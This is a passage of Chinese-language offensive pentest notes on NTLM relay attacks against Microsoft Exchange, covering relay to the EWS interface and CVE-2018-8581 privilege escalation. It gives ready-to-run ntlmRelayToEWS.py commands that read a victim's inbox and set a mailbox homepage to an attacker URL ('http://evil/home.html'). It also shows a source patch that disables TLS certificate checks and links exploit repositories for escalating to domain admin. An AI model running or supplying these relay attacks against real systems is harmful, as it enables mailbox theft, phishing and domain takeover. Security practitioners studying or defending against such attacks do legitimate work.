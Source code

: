 **smb/http relay to http**

中继至 http 时，如果：

1. 中继的账户是普通域用户，可以中继到 Exchange /EWS 接口，实现邮件发送、邮件下载、邮件委托、设置主页等功能
2. 中继的账户是域管账户，可以尝试 ADCS 提权

```bash
python2 ntlmRelayToEWS.py -t https://ip/EWS/exchange.asmx -r getFolder -f inbox -v
python2 ntlmRelayToEWS.py -t https://ip/EWS/exchange.asmx -r setHomePage -u http://evil/home.html -v

# 如果报证书认证错误，需要修改 lib/httprelayclient.py 源码
class HTTPRelayClient:
    def __init__(self, target, body):
        ......
        ......
        if proto.lower() == 'https':
            #Create unverified (insecure) context
            try:
                #uv_context = ssl.SSLContext(ssl.PROTOCOL_SSLv23)
                # uv_context = ssl.create_default_context()
                uv_context = ssl._create_unverified_context() # 把 create_default_context 改成 _create_unverified_context
实战中邮件委托和设置主页两个功能危害较大。
```

#### PushSubscription abuse (CVE-2018-8581)

- https://msrc.microsoft.com/update-guide/en-US/vulnerability/CVE-2018-8581

**简介**

Exchange 的 SSRF 默认携带凭据, 可以用于 Relay

1. 通过 HTTP 使用 NTLM 向攻击者进行交换身份验证
2. 与 NTLM 中继攻击相结合，使得用户可以低权限 (任意拥有邮箱的用户) 提权到域管理员。

**相关文章**
- [微软Exchange爆出0day漏洞，来看POC和技术细节](https://www.freebuf.com/vuls/195162.html)
- [Microsoft Exchange 任意用户伪造漏洞（CVE-2018-8581）分析](https://paper.seebug.org/804/)
- [MICROSOFT EXCHANGE漏洞分析 - CVE-2018-8581](https://0kee.360.cn/blog/microsoft-exchange-cve-2018-8581/)
- [分析CVE-2018-8581：在Microsoft Exchange上冒充用户](https://www.anquanke.com/post/id/168337)
- [船新版本的Exchange Server提权漏洞分析](https://www.anquanke.com/post/id/170199)
- [利用 Exchange SSRF 漏洞和 NTLM 中继沦陷域控](https://paper.seebug.org/833/)
- [Exchange CVE-2018-8581 补丁有用？没用？](https://mp.weixin.qq.com/s/5nPUhIpUB5sR2bmP_getyw)
- https://www.thehacker.recipes/ad/movement/mitm-and-coerced-authentications/pushsubscription-abuse

**POC | Payload | exp**
- [Ridter/Exchange2domain](https://github.com/Ridter/Exchange2domain)
- [WyAtu/CVE-2018-8581](https://github.com/WyAtu/CVE-2018-8581)
- [dirkjanm/PrivExchange](https://github.com/dirkjanm/PrivExchange)

**http relay to EWS 接口**
